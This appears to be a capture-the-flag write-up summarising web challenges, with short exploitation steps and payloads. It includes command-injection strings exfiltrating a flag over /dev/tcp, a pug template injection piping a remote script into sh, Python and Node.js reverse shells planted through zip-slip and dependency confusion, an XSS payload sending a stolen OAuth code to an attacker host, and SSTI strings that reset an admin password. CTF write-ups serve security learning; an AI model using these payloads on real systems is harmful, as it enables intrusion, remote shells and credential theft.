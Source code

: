 # Summary
-----------

## Swaggy (Easy 50pts)
1. There's a list of available APIs.
2. Use `Authorization` header with creds admin:admin

## Confidentiality (Easy 50pts)
1. Command injection, `| cat flag.txt`

## Titanic (Easy 50pts)
1. URLCapture to http://localhost/server-status
2. Get credential of `root`
3. Log in

## Integrity (Medium 50pts)
1. Command Injection, `%0acat flag.txt`

## All Baked Up (Medium 359pts)
1. GraphQL Injection
2. Get a credential for authorized user
3. Use mutation for authenticating user
4. Use token and querying flag

## OPA Secrets (Hard 298pts)
1. Download Source code at `/security`
2. Create a secret and view it
3. Change it to id flag note

## Availability (Hard 357pts)
1. Command Injection, `%0acat flag.txt > /dev/tcp/ip_addr/port`

## Unpugify (Hard 480pts)
1. Application using pug and pug-code-gen, it has a critical security issue

template
```
html
  head
  body
    mixin print(text)
      p= text

    +print('Hello, world')
```
pretty
```
');process.mainModule.constructor._load('child_process').exec('curl https://reverse-shell.sh/ip_addr:port | sh');_=('
```

## Bumblebee (Hard 491pts)
1. Debug mode is enable
2. Send array in parameter to trigger error handling and leak snippet code
3. Zip file must have `.flower` extension
4. Django version is vulnerable with zip-slip
5. Replace `/usr/src/app/manage.py` using zip-slip then refresh

manage.py
```
#!/usr/bin/env python
import os
import sys
import socket,subprocess,os

if __name__ == '__main__':
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("ip_addr",port))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])

    os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'bumblebee.settings')
    try:
        from django.core.management import execute_from_command_line
    except ImportError as exc:
        raise ImportError(
            "Couldn't import Django. Are you sure it's installed and "
            "available on your PYTHONPATH environment variable? Did you "
            "forget to activate a virtual environment?"
        ) from exc
    execute_from_command_line(sys.argv)
```

## Spiral CI (Hard 496pts) ([Detailed Writeup](Web/SpiralCI))
1. Application accepting JWT `none` algorithm
2. Tampering `user_id` to `2`
3. Calculator Project using local dependency
4. Vulnerable to dependency confusion

calc.test.js
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="ip_addr";
PORT="port";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { 
    String.prototype.contains = function(it) { 
        return this.indexOf(it) != -1; 
    }; 
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit', function(code,signal){
            client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

## Sticky Notes (Hard 500pts) ([Detailed Writeup](Web/Sticky%20Notes))
1. The flow of oauth login for this application is something like this
`sticky-notes/oauth/signin -> oaut/oauth/authorize?state=nyx -> sticky-notes/signin_callback?code=steal&state=nyx`
2. Sticky notes application have XSS in `report a problem`
3. Steal `code` using `iframe`
4. Set `iframe` to oauth application using valid `state` and default value `redirect_url`
5. The oauth application will redirecting to sticky notes with `code` parameter
6. Send the current url to our webhook using js

payload
```
<iframe src="http://challenge.ctf.games:30783/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fchallenge.ctf.games%3A30846%2Foauth%2Fsignin_callback&scope=profile&state=Kjq4dAo18GjizCdF4sYxxO9GVFMddx&action=signin">
</iframe>
<script>
document.querySelector('iframe').addEventListener("load", function(){
    fetch('//ip_addr:port/?'+btoa(this.contentWindow.location.href))
})
</script>
```

## Go Blog (Hard 500pts)
1. `url/models/` and `url/web/` leaking source code
2. Username parameter have SSTI
3. `{{.}}` get credentials of admin but password is encrypted in sha512
3. Set username to `{{.CurrentUser.ChangePassword 'nyx'}}` and visit `/profile` will change our account password to `nyx`.
4. Set username to `{{.Post.Author.ChangePassword 'nyx'}}` and visit `/post/{post_uuid_admin}` will change the password the author of post to `nyx`
5. Change password of admin, logged in and visit `/admin`
